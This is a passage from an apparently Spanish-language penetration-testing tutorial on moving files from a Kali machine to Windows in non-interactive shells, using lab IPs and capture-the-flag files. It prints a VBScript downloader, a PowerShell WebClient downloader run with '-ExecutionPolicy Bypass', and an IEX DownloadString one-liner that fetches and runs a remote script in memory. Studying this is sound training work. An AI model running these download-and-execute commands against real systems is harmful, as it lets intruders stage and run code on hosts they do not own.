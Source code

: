 Estos comandos se pueden copy-paste en bloque. 

Y lo empleamos como hemos descrito anteriormente:

```
C:\Users\aeoae\Desktop>cscript wget.vbs http://192.168.127.132:8000/flag.txt              
echo  ts.Close >> wget.vbscscript wget.vbs http://192.168.127.132:8000/flag.txt

C:\Users\aeoae\Desktop>type flag.txt
type flag.txt
Congrats you have the flag!
```

<br />

**2.  Use PowerShell para transferir archivos en un shell no interactivo de Kali a Windows y viceversa.**

Podemos crear un HTTP Downloader a través de la siguiente secuencia de comandos del comando no interactivo 'echo':

```
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.127.132:8000/flag.txt" >>wget.ps1
echo $file = "flag.txt" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Y seguidamente ejecutamos el script:

```
C:\Users\aeoae\Desktop>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

C:\Users\aeoae\Desktop>type flag.txt
type flag.txt
Congrats you have the flag
```

También podemos utilizar un comando:

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.127.132:8000/flag.txt', 'flag.txt')
```

Y recordar que si estamos descargando un script de powershell (.ps1) podemos ejecutar un script remotamante en la máquina local (esto es descargar y ejecutar sin guardar el archivo) añadiendo la opción IEX:

```
C:\Users\Offsec> powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/flag.ps1')
Congrats you have the flag
```

<br />

